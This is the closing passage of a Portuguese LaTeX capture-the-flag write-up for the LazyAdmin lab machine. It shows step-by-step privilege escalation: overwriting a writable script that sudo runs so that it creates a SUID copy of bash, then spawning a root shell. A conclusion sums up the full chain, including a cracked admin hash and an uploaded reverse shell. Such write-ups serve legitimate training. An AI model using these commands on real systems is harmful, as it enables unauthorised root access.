\begin{lstlisting}[caption={Comando executáveis}, label={lst:sudol}]
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
\end{lstlisting}

Essa permissão permite executar o script \textit{backup.pl} como root sem
fornecer senha. O conteúdo do script mostra que ele executa
\textit{/etc/copy.sh} através do shell:

\begin{lstlisting}[caption={Conteúdo do script executado como root}, label={lst:backup_pl}]
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
\end{lstlisting}

Como o arquivo \textit{/etc/copy.sh} possui permissão de escrita para o
usuário atual, podemos substituir seu conteúdo por comandos que criam uma
cópia SUID do Bash:

\begin{lstlisting}[caption={Preparação do script de cópia}, label={lst:copy_sh}]
$ echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /etc/copy.sh
\end{lstlisting}

Em seguida, executamos o script autorizado pelo sudo. Os comandos presentes
em \textit{/etc/copy.sh} serão executados com os privilégios efetivos de
root:

\begin{lstlisting}[caption={Execução do script com privilégios elevados}, label={lst:execute_backup}]
$ sudo /usr/bin/perl /home/itguy/backup.pl
\end{lstlisting}

O arquivo criado em \textit{/tmp/rootbash} possui o bit SUID. A opção
\textit{-p} faz com que o Bash preserve os privilégios efetivos do
proprietário do arquivo:

\begin{lstlisting}[caption={Obtenção da shell root}, label={lst:root_shell}]
$ /tmp/rootbash -p
rootbash-5.0# whoami
root
\end{lstlisting}

Com a shell privilegiada, podemos ler a flag final armazenada no diretório
do usuário root:

\begin{lstlisting}[caption={Leitura da flag de root}, label={lst:root_flag}]
rootbash-5.0# cat /root/root.txt
\end{lstlisting}



% 2.8. conclusao
% resumo tecnico de 3 a 5 linhas sintetizando a cadeia de exploracao completa,
% do reconhecimento a captura final da flag.
\section{Conclusão}

A exploração começou com a enumeração das portas e a identificação do CMS
SweetRice na aplicação web. O backup exposto do banco de dados forneceu a
hash da senha do usuário administrativo, que foi quebrada e utilizada para
acessar o painel. A partir da funcionalidade de upload, foi enviada uma
shell reversa, obtendo acesso como \textit{www-data}. Por fim, a permissão
de executar \textit{backup.pl} como root, combinada com a possibilidade de
alterar \textit{/etc/copy.sh}, permitiu criar uma cópia SUID do Bash e obter
acesso ao usuário root.

\section{Referências}

% 2.9. referencias
% espaco destinado as fontes utilizadas para a exploracao:
% links dos repositorios de exploits publicos, documentacoes e cves correspondentes.
\begin{thebibliography}{9}
    \bibitem{ref1}
    \textbf{Infosec Institute}: LazyAdmin CTF Walkthrough. \\
    Disponível em: \url{https://www.infosecinstitute.com/resources/capture-the-flag/lazyadmin-ctf-walkthrough/}
    
    \bibitem{ref2}
    \textbf{RevShells}: Reverse Shell Generator. \\
    Disponível em: \url{https://www.revshells.com/}

    \bibitem{ref3}
    \textbf{GTFOBins}: Técnicas de exploração de binários Unix com permissões elevadas. \\
    Disponível em: \url{https://gtfobins.github.io/}

\end{thebibliography}

\end{document}